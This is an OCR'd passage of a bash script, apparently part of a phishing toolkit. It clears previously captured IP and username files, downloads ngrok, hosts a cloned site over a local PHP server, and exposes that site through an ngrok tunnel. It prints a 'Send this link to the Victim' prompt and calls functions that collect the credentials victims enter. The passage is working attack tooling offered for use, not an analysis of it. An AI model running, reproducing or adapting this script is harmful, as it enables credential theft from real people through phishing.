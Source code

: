 getcredentials
}

start() {
if [[ -e sites/$server/ip.txt ]]; then
rm -rf sites/$server/ip.txt

fi
if [[ -e sites/$server/usernames.txt ]]; then
rm -rf sites/$server/usernames.txt

fi


if [[ -e ngrok ]]; then
echo ""
else

printf "\e[1;92m[\e[0m*\e[1;92m] Downloading Ngrok...\n"
arch=$(uname -a | grep -o 'arm')

if [[ $arch == *'arm'* ]]; then
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1

if [[ -e ngrok-stable-linux-arm.zip ]]; then
unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-arm.zip
else
printf "\e[1;93m[!] Download error... Termux, run:\e[0m\e[1;77m pkg install wget\e[0m\n"
exit 1
fi



else
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1 
if [[ -e ngrok-stable-linux-386.zip ]]; then
unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-386.zip
else
printf "\e[1;93m[!] Download error... \e[0m\n"
exit 1
fi
fi
fi

printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
cd sites/$server && php -S 127.0.0.1:3333 > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m*\e[1;92m] Starting ngrok server...\n"
./ngrok http 3333 > /dev/null 2>&1 &
sleep 10

link=$(curl -s -N http://127.0.0.1:4040/status | grep -o "https://[0-9a-z]*\.ngrok.io")
printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Victim:\e[0m\e[1;77m %s\e[0m\n" $link
checkfound
}
checkfound() {
